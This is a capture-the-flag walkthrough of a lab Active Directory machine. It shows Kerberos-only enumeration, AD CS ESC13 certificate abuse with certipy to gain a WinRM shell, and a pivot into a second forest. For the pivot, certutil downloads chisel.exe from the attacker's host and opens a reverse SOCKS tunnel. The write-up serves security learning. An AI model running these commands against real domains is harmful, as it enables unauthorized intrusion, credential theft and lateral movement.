# PingPong Writeup

## Machine Information

| Machine | PingPong |
|---|---|
| OS | Windows Server |
| Difficulty | Insane |
| Target 1 | 10.129.50.113 / 10.129.65.236 (`dc1.ping.htb`) |
| Target 2 | 192.168.2.2 (`dc2.pong.htb`) |

> [!Note]
> PingPong is a realistic multi-forest Active Directory lab featuring two distinct domains connected by a cross-forest trust: `PING.HTB` and `PONG.HTB`. Starting from assumed breach credentials for user `c.roberts` on an environment where NTLM is completely disabled, the path requires mastering Kerberos authentication and clock synchronization, abusing an AD CS ESC13 vulnerability to obtain WinRM access, pivoting into the second forest via Chisel, manipulating Active Directory group scopes from Global to Universal to Domain Local to compromise a Group Managed Service Account (gMSA), bypassing a Just Enough Administration (JEA) restriction using native PowerShell to extract plaintext credentials from PSReadLine history, leveraging Resource-Based Constrained Delegation (RBCD) with custom Kerberos Service Tickets to execute commands on MSSQL as dbo, escalating to SYSTEM via GodPotato, dumping NTDS secrets, and finally chaining an ESC4 certificate template write permission into an ESC1 arbitrary SAN takeover to capture the root flag on the primary domain controller.

and...

> [!Note]
> This writeup is a complete walkthrough detailing every trial, error, and rabbit hole i encountered. hope yall enjoy reading it...

---

## Enumeration

### Initial Credentials & Port Scan

As is common in real-world internal penetration testing engagements, this assessment began under an assumed breach scenario. The engagement briefing supplied credentials for an initial domain account.

```bash
export pass="AssumedBreach123"
export user="c.roberts"
export ip="10.129.50.113"
export domain="dc01.ping.htb"
```

I initiated network reconnaissance against the target domain controller with an extensive Nmap service scan.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-23 22:41:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
51806/tcp open  msrpc         Microsoft Windows RPC
51955/tcp open  msrpc         Microsoft Windows RPC
51959/tcp open  msrpc         Microsoft Windows RPC
61807/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
```

The scan confirmed that `DC1` was acting as the Active Directory Domain Controller for `ping.htb`, exposing Kerberos (88), LDAP/LDAPS (389, 636), SMB (445), and WinRM (5985).

### NTLM Authentication Failure & Kerberos Time Synchronization

I attempted to validate the provided credentials across SMB and WinRM using NetExec (`nxc`).

```bash
nxc smb $ip -u $user -p $pass && nxc winrm $ip -u $user -p $pass
```

Both protocols rejected the authentication attempt outright.

```
SMB         10.129.65.236   445    DC1              [*]  x64 (name:DC1) (domain:ping.htb) (signing:True) (SMBv1:False) (NTLM:False) (DC:True)
SMB         10.129.65.236   445    DC1              [-] ping.htb\c.roberts:AssumedBreach123 STATUS_NOT_SUPPORTED 
[21:47:06] ERROR    Invalid NTLM challenge received from server. This may indicate NTLM is not supported and nxc winrm only support NTLM currently                                                                                 winrm.py:67
WINRM       10.129.65.236   5985   10.129.65.236    [*] None (name:10.129.65.236) (domain:None) (NTLM:False)
WINRM       10.129.65.236   5985   10.129.65.236    [-] None\c.roberts:AssumedBreach123
```

Notice the flag `(NTLM:False)`. The domain controller had NTLM authentication completely disabled through Group Policy (`Network security: Restrict NTLM: Incoming NTLM traffic` set to `Deny all domain accounts`). Any tool attempting NTLM negotiation received `STATUS_NOT_SUPPORTED`.

I tested LDAP with NTLM and observed the same refusal.

```bash
nxc ldap $ip -u $user -p $pass --verbose
```

```
LDAP        10.129.65.236   389    DC1              [*] None (name:DC1) (domain:ping.htb) (signing:Unknown) (channel binding:Unknown) (NTLM:False)
           INFO     Connecting to ldap://dc1.ping.htb - DC=ping,DC=htb - 10.129.65.236 using NTLM                        ldap.py:476
LDAP        10.129.65.236   389    DC1              [-] ping.htb\c.roberts:AssumedBreach123 STATUS_NOT_SUPPORTED
```

To interact with this environment, Kerberos authentication (`-k`) was mandatory. However, when I switched to Kerberos authentication on LDAP, another error arose immediately.

```bash
nxc ldap $ip -u $user -p $pass --verbose -k
```

```
LDAP        10.129.65.236   389    DC1              [*] None (name:DC1) (domain:ping.htb) (signing:Unknown) (channel binding:Unknown) (NTLM:False)
           INFO     Connecting to ldap://dc1.ping.htb - DC=ping,DC=htb - 10.129.65.236 using Kerberos                    ldap.py:343
LDAP        10.129.65.236   389    DC1              [-] ping.htb\c.roberts:AssumedBreach123 KRB_AP_ERR_SKEW
```

Kerberos tickets are timestamped to prevent replay attacks, and Active Directory enforces a maximum clock skew tolerance of 5 minutes. My attacking system clock was drastically out of sync.

I disabled local automatic NTP and synchronized my time directly against the target Domain Controller using `ntpdate`.

```bash
sudo timedatectl set-ntp off
sudo ntpdate 10.129.65.236
```

```
24 Nov 06:16:48 ntpdate[93995]: step time server 10.129.65.236 offset +28706.836641 sec
```

The clock was off by nearly 8 hours (+28,706 seconds). With time aligned, I re-executed Kerberos authentication against LDAP and SMB.

```bash
nxc ldap $ip -u $user -p $pass --verbose -k
nxc smb $ip -u $user -p $pass -k
```

```
LDAP        10.129.65.236   389    DC1              [+] ping.htb\c.roberts:AssumedBreach123
SMB         10.129.65.236   445    DC1              [+] ping.htb\c.roberts:AssumedBreach123
```

Both services authenticated successfully. This confirmed that every subsequent action in this assessment had to rely strictly on Kerberos tickets.

### BloodHound & Domain Reconnaissance

I attempted to gather domain data using standard Python and SharpHound collectors, but they failed due to the strict Kerberos, LDAPS, and channel binding requirements. The only tool that successfully harvested Active Directory objects was `rusthound-ce`.

```bash
rusthound-ce -d ping.htb -u c.roberts -p "$pass" -f dc01.ping.htb --ldaps --zip -c All
```

```
---------------------------------------------------
Initializing RustHound-CE at 07:23:37 on 11/24/26
Version 2.5.52 powered by @g0h4n_0
---------------------------------------------------

[2026-11-24T00:23:37Z INFO  rusthound_ce::transport::ldap] Connected to PING.HTB Active Directory on LDAP!
[2026-11-24T00:23:48Z INFO  rusthound_ce::transport::ldap] All data collected for NamingContext CN=Schema,CN=Configuration,DC=ping,DC=htb
[2026-11-24T00:23:51Z INFO  rusthound_ce::transport::ldap] All data collected for NamingContext DC=ping,DC=htb
[2026-11-24T00:24:02Z INFO  rusthound_ce::objects::enterpriseca] Found 13 enabled certificate templates
```

I imported the generated zip archive into BloodHound CE to inspect the domain topology.





While analyzing the BloodHound graphs, I also ran several NetExec modules over SMB to check for common misconfigurations and privilege escalation vectors. (the second image is collected when i already got robert shell PONG.HTB through chisel)

```bash
nxc smb $ip -u $user -p $pass -k -M gpp_password
nxc smb $ip -u $user -p $pass -k -M gpp_autologin
nxc smb $ip -u $user -p $pass -k -M enum_cve
nxc smb $ip -u $user -p $pass -k -M nopac
```

The Group Policy Preferences checks returned no stored passwords or autologon credentials. The `nopac` check showed identical PAC sizes (`1545`), proving the DC was patched against CVE-2021-42287.

I inspected domain-level security privileges from the default domain policy file using `gpp_privileges`.

```bash
nxc smb $ip -u $user -p $pass -k -M gpp_privileges
```

```
GPP_PRIV... 10.129.65.236   445    DC1              [+] Found Default Domain Policy GptTmpl.inf: ping.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
GPP_PRIV... 10.129.65.236   445    DC1              MACHINE\System\CurrentControlSet\Services\NTDS\Parameters\LdapEnforceChannelBinding: 4, 2
GPP_PRIV... 10.129.65.236   445    DC1              MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\EnableSecuritySignature: 4, 1
GPP_PRIV... 10.129.65.236   445    DC1              MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\RequireSecuritySignature: 4, 1
GPP_PRIV... 10.129.65.236   445    DC1              MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\RequireSignOrSeal: 4, 1
GPP_PRIV... 10.129.65.236   445    DC1              MACHINE\System\CurrentControlSet\Services\NTDS\Parameters\LDAPServerIntegrity: 4, 2
```

The domain policy strictly enforced LDAP channel binding (`LdapEnforceChannelBinding: 2`), LDAP signing (`LDAPServerIntegrity: 2`), SMB signing, and Netlogon sealing. This explained why raw relaying and unauthenticated probes failed.

Next, I exported the domain users list over SMB.

```bash
nxc smb 10.129.65.236 -u "$user" -p "$pass" -k --users-export users.txt
```

NetExec enumerated 25 domain users and saved them to `users.txt`.

I tested AS-REP roasting and Kerberoasting against all 25 accounts using Impacket.

```bash
GetNPUsers.py dc1.ping.htb/c.roberts:AssumedBreach123 -dc-ip 10.129.65.236 -k -request -usersfile users.txt
GetUserSPNs.py dc1.ping.htb/c.roberts:AssumedBreach123 -dc-ip 10.129.65.236 -k -request -usersfile users.txt
```

Both commands returned `[-] Kerberos SessionError: KDC_ERR_WRONG_REALM(Reserved for future use)`. This occurred because cross-realm referral resolution failed when routing generic queries through the IP address.

---

## Initial Foothold

### AD CS ESC13 Abuse (TemporaryWinRM)

Since standard user attacks did not yield progress, I analyzed Active Directory Certificate Services (AD CS). I ran `certipy find` to check for vulnerable certificate templates.

```bash
certipy find -u c.roberts@ping.htb -p AssumedBreach123 -dc-host dc1.ping.htb -ns 10.129.65.236 -k -vulnerable -stdout -debug
```

Certipy identified an **ESC13** vulnerability on a template named `TemporaryWinRM`.

```
Template Name                       : TemporaryWinRM
DisplayName                         : Temporary WinRM Access
Certificate Authorities             : ping-DC1-CA
Enabled                             : True
[+] Client Authentication           : True
Enrollee Supplies Subject           : False
Issuance Policies                   : 1.3.6.1.4.1.311.21.8.5808481.4086498.12600997.2067446.8927163.214.489503.1996623
Linked Groups                       : CN=TempWinRMAccess,CN=Users,DC=ping,DC=htb
Permissions
  Enrollment Permissions
    Enrollment Rights               : PING.HTB\Domain Admins
                                      PING.HTB\Domain Users
                                      PING.HTB\Enterprise Admins
[+] User Enrollable Principals      : PING.HTB\Domain Users
[!] Vulnerabilities
  ESC13                             : Template allows client authentication and issuance policy is linked to group 'CN=TempWinRMAccess,CN=Users,DC=ping,DC=htb'.
```



#### Understanding ESC13 in Active Directory

ESC13 exploits issuance policies linked to security groups. In Active Directory Certificate Services, an Enterprise CA can define custom issuance policies represented by specific Object Identifiers (OIDs). When an issuance policy is mapped to a group (`msDS-OIDToGroupLink`), anyone who authenticates with a certificate issued under that policy has the linked group SID injected into their Kerberos PAC by the KDC during PKINIT authentication.

The `TemporaryWinRM` template had client authentication enabled, was enrollable by `PING.HTB\Domain Users`, and linked to the group `CN=TempWinRMAccess,CN=Users,DC=ping,DC=htb`. While `c.roberts` was not natively in the `TempWinRMAccess` group, enrolling in this certificate and authenticating via PKINIT would grant the membership dynamically.

### Kerberos Configuration & Evil-WinRM Access

I requested a certificate from `ping-DC1-CA` using the `TemporaryWinRM` template.

```bash
certipy req -k -no-pass -dc-ip 10.129.65.236 -target dc1.ping.htb -ca 'ping-DC1-CA' -template 'TemporaryWinRM' -debug
```

```
[*] Requesting certificate via RPC
[*] Request ID is 18
[*] Successfully requested certificate
[*] Got certificate with UPN 'C.Roberts@ping.htb'
[*] Certificate object SID is 'S-1-5-21-750635624-2058721901-1932338391-2617'
[*] Saving certificate and private key to 'c.roberts.pfx'
[*] Wrote certificate and private key to 'c.roberts.pfx'
```

I used `certipy auth` to authenticate with the `.pfx` certificate via PKINIT, requesting a renewed Kerberos TGT with the injected `TempWinRMAccess` group membership.

```bash
certipy auth -pfx c.roberts.pfx -username c.roberts -domain ping.htb -dc-ip 10.129.65.236 -dns-tcp
```

```
[*] Certificate identities:
[*]     SAN UPN: 'C.Roberts@ping.htb'
[*]     Security Extension SID: 'S-1-5-21-750635624-2058721901-1932338391-2617'
[*] Using principal: 'c.roberts@ping.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'c.roberts.ccache'
[*] Wrote credential cache to 'c.roberts.ccache'
[*] Trying to retrieve NT hash for 'c.roberts'
[*] Got hash for 'c.roberts@ping.htb': aad3b435b51404eeaad3b435b51404ee:2475be69d40e815588a85fd89c7a439d
```

With the credential cache `c.roberts.ccache` populated, I tried connecting over WinRM using `evil-winrm-py`.

```bash
evil-winrm-py -i 10.129.65.236 -u c.roberts -k
```

The connection failed immediately.

```
[*] Connecting to '10.129.65.236:5985' as 'c.roberts'
[-] Failed to authenticate the user c.roberts with kerberos
```

Connecting directly by IP address failed because Kerberos SPN construction relies on fully qualified domain names (FQDNs), not raw IP addresses. Furthermore, the local Kerberos library needed to know which KDC handles the `PING.HTB` realm.

I used NetExec to generate a local hosts mapping and a `/etc/krb5.conf` profile.

```bash
netexec smb ping.htb --generate-hosts-file hosts.txt
cat hosts.txt
```

```
10.129.65.236     DC1.ping.htb ping.htb DC1
```

I appended this line to `/etc/hosts` and generated the Kerberos configuration file.

```bash
netexec smb ping.htb --generate-krb5-file krb5.conf
cat krb5.conf
```

```ini
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = PING.HTB

[realms]
    PING.HTB = {
        kdc = dc1.ping.htb
        admin_server = dc1.ping.htb
        default_domain = ping.htb
    }

[domain_realm]
    .ping.htb = PING.HTB
    ping.htb = PING.HTB
```

I exported the environment variables to tell the system Kerberos libraries where to locate the configuration and ticket cache.

```bash
export KRB5_CONFIG=krb5.conf
export KRB5CCNAME=/home/wakamiya/VirtualLab/HTB/PingPong/c.roberts.ccache
```

Now I launched `evil-winrm-py` targeting the FQDN `dc1.ping.htb`.

```bash
evil-winrm-py -i dc1.ping.htb --kerberos
```

```
[*] Connecting to 'dc1.ping.htb:5985' as 'c.roberts@PING.HTB'
evil-winrm-py PS C:\Users\C.Roberts\Documents>
```

The Kerberos authentication succeeded, granting initial shell access on the domain controller.

---

## Pivoting & Cross-Forest Trust

### Discovering the PONG.HTB Forest

Once inside `DC1`, I began internal host and network enumeration. Checking IP configurations revealed multiple network adapters.

```powershell
evil-winrm-py PS C:\Users\C.Roberts\Documents> ipconfig /all
```

```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : dc1
   Primary Dns Suffix  . . . . . . . : ping.htb

Ethernet adapter vEthernet (Switch01):
   IPv4 Address. . . . . . . . . . . : 192.168.2.1(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 0.0.0.0
   DNS Servers . . . . . . . . . . . : 127.0.0.1
                                       192.168.2.2

Ethernet adapter Ethernet0 2:
   IPv4 Address. . . . . . . . . . . : 10.129.65.236(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.129.0.1
```

The domain controller had a dual-NIC configuration. Beside the external `10.129.x.x` network, an internal virtual switch existed on `192.168.2.0/24` with a secondary DNS server configured at `192.168.2.2`.

I queried DNS to resolve the secondary server.

```powershell
evil-winrm-py PS C:\Users\C.Roberts\Documents> Resolve-DnsName -Name 192.168.2.2 | Select-Object -ExpandProperty NameHost
DC2
evil-winrm-py PS C:\Users\C.Roberts\Documents> Resolve-DnsName -Name 192.168.2.1 | Select-Object -ExpandProperty NameHost
dc1.ping.htb
```

I checked my current user privileges and group memberships.

```powershell
evil-winrm-py PS C:\Users\C.Roberts\Documents> whoami /priv
evil-winrm-py PS C:\Users\C.Roberts\Documents> whoami /groups
```

```
Privilege Name                Description                    State  
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

Group Name                                  Type             SID                                           Attributes                                        
=========================================== ================ ============================================= ==================================================
PING\TempWinRMAccess                        Group            S-1-5-21-750635624-2058721901-1932338391-2602 Mandatory group, Enabled by default, Enabled group
PING\IT                                     Group            S-1-5-21-750635624-2058721901-1932338391-2618 Mandatory group, Enabled by default, Enabled group
```



The injected group `PING\TempWinRMAccess` was present, alongside a group named `PING\IT`.

Returning to BloodHound, I executed a Cypher query to check for forest trusts.

```cypher
MATCH p = (:Domain)-[:SameForestTrust|CrossForestTrust]->(:Domain)
RETURN p
LIMIT 1000
```

The query returned a cross-forest trust relationship connecting `PING.HTB` to a foreign domain named `PONG.HTB`.

```
Node Type: Domain
Object ID: S-1-5-21-2410575906-3092493790-2123333151
Domain FQDN: PONG.HTB
Distinguished Name: DC=PONG,DC=HTB
```





This explained the DNS server at `192.168.2.2` named `DC2`. I tested connectivity to `PONG.HTB`.

```powershell
evil-winrm-py PS C:\Users\C.Roberts\Documents> ping pong.htb
```

```
Pinging pong.htb [192.168.2.2] with 32 bytes of data:
Reply from 192.168.2.2: bytes=32 time=1ms TTL=128
```

`DC2` (`192.168.2.2`) was the Domain Controller for `PONG.HTB`.

### Establishing Reverse Tunneling with Chisel

Because `192.168.2.0/24` was completely isolated and unreachable from my Arch, I needed a reverse SOCKS proxy through `DC1`.

I downloaded `chisel.exe` onto `DC1` using `certutil`.

```powershell
evil-winrm-py PS C:\ProgramData> certutil -urlcache -f http://10.10.15.173:8000/chisel.exe chisel.exe
evil-winrm-py PS C:\ProgramData> .\chisel.exe client 10.10.15.173:9090 R:socks
```

On my Kali machine, I started the Chisel server listener.

```bash
chisel server --port 9090 --reverse
```



I configured `/etc/proxychains.conf` to direct traffic through the Chisel SOCKS5 port (`127.0.0.1:1080`).

Next, I updated `/etc/hosts` to map `dc2.pong.htb` and `pong.htb` to `192.168.2.2`. I also updated `/etc/krb5.conf` so Kerberos could resolve both realms simultaneously.

```ini
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = PING.HTB

[realms]
    PING.HTB = {
        kdc = dc1.ping.htb
        admin_server = dc1.ping.htb
        default_domain = ping.htb
    }
    PONG.HTB = {
        kdc = dc2.pong.htb
        admin_server = dc2.pong.htb
        default_domain = pong.htb
    }

[domain_realm]
    .ping.htb = PING.HTB
    ping.htb = PING.HTB
    .pong.htb = PONG.HTB
    pong.htb = PONG.HTB
```



I verified connectivity to `DC2` through proxychains.

```bash
proxychains nxc smb dc2.pong.htb
```

```
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc2.pong.htb:445  ...  OK
SMB         224.0.0.1       445    DC2              [*]  x64 (name:DC2) (domain:pong.htb) (signing:True) (SMBv1:False) (NTLM:False) (DC:True)
```

I authenticated to `DC2.pong.htb` using `c.roberts` credentials from `ping.htb`.

```bash
proxychains nxc smb DC2.pong.htb -u $user -p $pass -d ping.htb -k
```

```
SMB         DC2.pong.htb    445    DC2              [+] ping.htb\c.roberts:AssumedBreach123
```

With authenticated SMB access over the trust, I ran `rusthound-ce` through proxychains to harvest all Active Directory data from `PONG.HTB`.

```bash
proxychains rusthound-ce -u $user -p $pass -k -d PONG.HTB -f DC2.PONG.HTB --zip -c All
```

```
[2026-11-24T13:08:09Z INFO  rusthound_ce::transport::ldap] Connected to PONG.HTB Active Directory!
[2026-11-24T13:08:28Z INFO  rusthound_ce::json::maker::common] 19 users parsed!
[2026-11-24T13:08:28Z INFO  rusthound_ce::json::maker::common] 64 groups parsed!
